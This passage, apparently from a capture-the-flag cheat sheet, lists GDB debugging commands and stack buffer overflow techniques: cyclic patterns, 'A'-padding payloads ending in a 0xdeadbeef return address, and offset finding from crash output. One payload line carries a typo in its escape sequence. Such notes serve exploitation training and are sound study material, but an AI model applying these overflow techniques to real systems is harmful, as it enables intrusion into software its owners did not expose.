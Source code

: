 ### Debugging Commands
```bash
# GDB basic commands
$ gdb ./binary
(gdb) info functions  # List all functions
(gdb) disas main      # Disassemble main function
(gdb) b *main         # Set breakpoint at main
(gdb) x/32wx $esp     # Examine stack (32-bit)
(gdb) x/32gx $rsp     # Examine stack (64-bit)
(gdb) run $(python -c 'print "A"*100')  # Test buffer overflow

# Advanced GDB commands
(gdb) info proc mappings  # View memory mappings
(gdb) find /b 0x08048000,0x08049000,0x90,0x90,0x90  # Search for NOPs
(gdb) define hook-stop    # Create custom break behavior
> x/i $pc
> x/8wx $sp
> end
```

## 💥 Common Vulnerabilities

### 1. Stack Buffer Overflow
```bash
# Pattern creation and detection
$ cyclic 100
aaaabaaacaaadaaaeaaaf...

# Different input methods
# 1. Command line argument
$ ./binary $(python -c 'print "A"*44 + "\xef\xbe\xad\xde"')

# 2. Pipe input
$ python -c 'print "A"*44 + "\xef\xbe\xad\xde"' | ./binary

# 3. Here string
$ ./binary <<< $(python -c 'print "A"*44 + "\xef\xbe\xad\xde"')

# 4. File input
$ python -c 'print "A"*44 + "\xef\be\xad\xde"' > input.txt
$ ./binary < input.txt

# Finding offset (32-bit)
(gdb) run $(python -c 'print "A"*100')
Program received signal SIGSEGV
(gdb) x/wx $esp
0xffffd620: 0x41414141

# Finding offset (64-bit)
(gdb) run <<< $(python3 -c 'print("A"*100)')
Program received signal SIGSEGV
(gdb) x/gx $rsp
0x7fffffffe4f8: 0x4141414141414141

# Memory examination
(gdb) x/32wx $esp-128  # Examine memory around crash
(gdb) bt full          # Full backtrace
```
